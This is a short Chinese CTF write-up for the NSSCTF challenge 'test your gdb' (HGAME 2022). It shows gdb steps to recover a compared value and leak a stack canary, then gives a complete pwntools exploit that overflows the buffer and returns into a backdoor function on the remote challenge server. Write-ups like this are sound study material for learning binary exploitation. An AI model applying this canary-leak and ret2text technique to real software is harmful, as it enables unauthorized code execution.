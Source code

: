 [[HGAME 2022 week1]test your gdb | NSSCTF](https://www.nssctf.cn/problem/1871)
![[Pasted image 20240902223656.png]]
怎么说呢，也是一道不算难的题目，只要输入的`v8`和`v6`一样`write`函数就会输出栈上的`0x100`数量的数据，`canary`就在里面，同时有`backdoor`函数，后面就是普通的ret2text题目。
断点下在`memcmp`函数前面
![[Pasted image 20240902223921.png]]
![[Pasted image 20240902223938.png]]
可以看到`s1`是我们的输入,`s2`是`v6`的位置，查看一下
![[Pasted image 20240902224032.png]]
获得了`v6`内的数据。
输入正确后会返回的`0x100`个数据：
![[Pasted image 20240902224116.png]]
根据`canary`的特色可以看出有`0x18`的垃圾数据，可获得`canary`
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
    p = process('./testyourgdb')
    # pwnlib.gdb.attach(p, 'b main')
else:
    p = remote("node5.anna.nssctf.cn", 27173)

ret = 0x40101a
rdi = 0x407b53
backdoor = 0x401256
payload1 = p64(0xb0361e0e8294f147) + p64(0x8c09e0c34ed8a6a9)
p.recvuntil(b'word\n')
p.send(payload1)
p.recv(0x18)
canary = u64(p.recv(8))
log.success(f'canary: {hex(canary)}')
payload = b'a' * (0x20 - 8) + p64(canary) + b'a' * 8 + p64(ret) + p64(backdoor)
p.sendline(payload)
p.interactive()
```